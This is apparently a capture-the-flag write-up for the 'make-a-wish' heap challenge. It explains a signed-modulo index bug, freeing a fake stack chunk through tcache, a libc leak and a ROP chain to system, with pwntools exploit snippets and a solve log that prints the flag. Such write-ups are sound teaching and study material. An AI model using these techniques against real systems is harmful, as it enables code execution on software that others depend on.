

# make-a-wish

- Category: pwn
- Difficulty: medium

"our own make a wish program, and you dont even need to have cancer!"

A five-slot heap note manager. The index is taken modulo 5, which looks like a bound — it is not one, because C's `%` keeps the sign. The interesting part is not the OOB write itself but what it reaches: a *pointer to the stack*, which `free` then accepts as a chunk.

### Solution:

##### 1. `idx %= 5` is signed, and slot -2 is a stack pointer

Both `create` and `delete` normalise the index the same way:

```asm
401408:  movsxd rdx,eax
40140b:  imul   rdx,rdx,0x66666667
401416:  sar    edx,1
40141d:  sub    edx,ecx
401427:  shl    edx,0x2  /  add edx,ecx  /  sub eax,edx   ; eax = idx - (idx/5)*5
```

That is a signed remainder: the result ranges over `-4..4`, not `0..4`. With the array at `rbp-0x60`, the negative slots land squarely on `main`'s own locals:

```
wishes[-4] -> rbp-0x80   unused
wishes[-3] -> rbp-0x78   (high dword is the menu choice at rbp-0x74)
wishes[-2] -> rbp-0x70   rest      <-- pointer into the name buffer
wishes[-1] -> rbp-0x68   len
wishes[0..4] -> rbp-0x60 .. rbp-0x40
   name buffer            rbp-0x30 (read of 30 bytes)
   first                  rbp-0x08
```

`rest` is the second half of the name, i.e. a pointer *into the 30-byte stack buffer*. `delete(-2)` therefore calls `free()` on a stack address of our choosing.



`sub_401296` at `0x4012d6` has no xrefs at all — nothing in the binary calls it. It exists only to carry bytes:

```asm
4012de:  b8 31 c0 c3 5f    mov    eax,0x5fc3c031
```

Reading from `0x4012e2` instead, those immediate bytes are `5f 5d c3` — `pop rdi ; pop rbp ; ret`. The binary has no other `pop rdi`, so the setter planted one. That is the tell that the intended finish is a ROP chain, which means a stack write.

##### 2. `split` NULs the separator, which builds the chunk header

`free` on a stack pointer needs a plausible chunk: the pointer 16-byte aligned, and a size at `ptr-8` that is `>= 0x20`, 16-aligned and small enough to be a tcache index. `split` does the second half of that work for us:

```c
char *p = memchr(buf, ' ', len);
if (!p) return 0;
*p = 0;                      /* the space becomes a NUL */
*rest = buf + (p - buf) + 1;
```

`buf` is `rbp-0x30` and 16-aligned, so `rest` is 16-aligned only when the space sits at offset 15 — making `rest == rbp-0x20`, with the size field at `rbp-0x28`, i.e. bytes 8..15 of our own input. Byte 15 is the space itself, and `split` overwrites it with `0x00` before anything reads it. So the name

```python
name = b'A'*8 + p64(0xa0)[:7] + b' ' + b'C'*14      # exactly 30 bytes
```

leaves a size qword of `0x00000000000000a0` at `rbp-0x28` and a 16-aligned `rest` at `rbp-0x20`. `delete(-2)` drops that fake chunk into tcache bin 8 — no next-chunk checks run on the tcache path, only alignment, size sanity and the double-free key.

##### 3. The freed stack chunk comes back from `malloc`, twice

`create(1)` then pulls it straight back out and writes through it:

```asm
40144b:  mov    edi,0x90
401450:  call   malloc                 ; returns rbp-0x20
401455:  mov    QWORD PTR [rbx],rax    ; wishes[1] = rbp-0x20
4014c7:  call   fgets                  ; fgets(rbp-0x20, 0x90, stdin)
```

`fgets` writes up to 0x8f bytes starting at `rbp-0x20`, which covers `first` (`rbp-0x08`), the saved `rbp` and the return address. More usefully, the stack address was *also stored in `wishes[1]`* — so `delete(1)` frees it again, and the next `create` hands it back. That turns a one-shot stack write into a repeatable one, which is what makes a leak-then-exploit sequence possible inside a single connection.

##### 4. Leak libc through the copy relocation

Nothing here prints an address, but `printf("...Mr. %s", first)` prints a *string* from a pointer we now control at `rbp-0x08`. Pointing `first` at the `stdout` copy relocation in `.bss` prints the bytes of a libc pointer:

```python
STDOUT_BSS = 0x4040a0          # copy-reloc: holds &_IO_2_1_stdout_
t.sendlineafter(b'>> ', b'B'*0x18 + p64(STDOUT_BSS))
...
t.recvuntil(b'Mr. ')
leak = u64(t.recvuntil(b'\x1b[0m', drop=True).ljust(8, b'\x00'))
libc.address = leak - libc.sym['_IO_2_1_stdout_']
```

The top two bytes of a libc pointer are zero, so `%s` stops after six and the leak is exact. No libc ships with this challenge, but its Dockerfile pins the same `debian@sha256:4ffb3a15...` base image as *huge binary 1*, which does ship one — glibc 2.41, and the offsets transfer.

##### 5. Second pass writes the chain

Free and re-allocate the same stack chunk, then lay the chain over the frame. Offsets are relative to `rbp-0x20`:

```python
chain = flat({0x18: p64(STDOUT_BSS),     # first -> still a valid string for the exit printf
              0x20: p64(0),              # saved rbp
              0x28: p64(POP_RDI_RBP),    # return address -> 0x4012e2
              0x30: p64(binsh),
              0x38: p64(0),              # eaten by `pop rbp`
              0x40: p64(system)}, filler=b'C')
```

Menu option 3 falls into `leave ; ret`, and `system` is entered with `rsp` at `rbp+0x28` — congruent to 8 mod 16, exactly what a normal call site gives, so no alignment `ret` is needed. The only constraint on the payload is no `0x0a` byte, since `fgets` stops at a newline; NULs are fine.

```
$ ./solve.py remote
[!] stdout 0x7f9d4e1d7780 -> libc base 0x7f9d4e000000
PWNED
K17{my_f4v0ur1t3_fl4v0ur_15_k1w1_p1n34ppl3_btw}
```

Full script: [solve.py](solve.py)

**Flag:** `K17{my_f4v0ur1t3_fl4v0ur_15_k1w1_p1n34ppl3_btw}`

### Takeaways

- A function with no xrefs in a small binary is a planted gadget, not dead code. Grepping the *immediate operands* for `5f c3` / `5f 5d c3` finds `pop rdi ; ret` hiding inside `mov eax, imm32` — and its presence tells you the intended solution shape before you have found the bug.
- `x % n` on a signed int is not a bounds check. The give-away in disassembly is the `imul` magic-number division followed by `sar`/`sub` rather than an `and`.
- A parser that NUL-terminates in place (`*sep = 0`) is a free arbitrary zero byte. Here it is what manufactures a valid chunk size out of a field that would otherwise have contained the separator.
- The tcache path in `_int_free` validates alignment, size and the double-free key, and nothing about the surrounding chunks — so a fake chunk on the stack only needs those three things to be reusable by the next `malloc` of that size class.
